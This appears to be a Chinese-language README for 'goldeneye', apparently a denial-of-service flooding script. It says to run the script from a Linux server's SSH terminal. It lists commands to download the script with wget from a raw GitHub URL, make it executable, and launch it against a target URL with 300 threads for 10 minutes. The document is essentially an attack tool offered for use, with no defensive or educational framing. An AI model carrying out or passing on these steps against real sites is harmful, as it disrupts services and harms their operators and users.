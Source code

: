 # goldeneye
脚本需要在linux服务器SSH终端执行

wget https://raw.githubusercontent.com/wxhscc/goldeneye/main/goldeneye.py

chmod +x goldeneye.py

./goldeneye.py http://url/ -s 600 -w 300

300线程发包10分钟
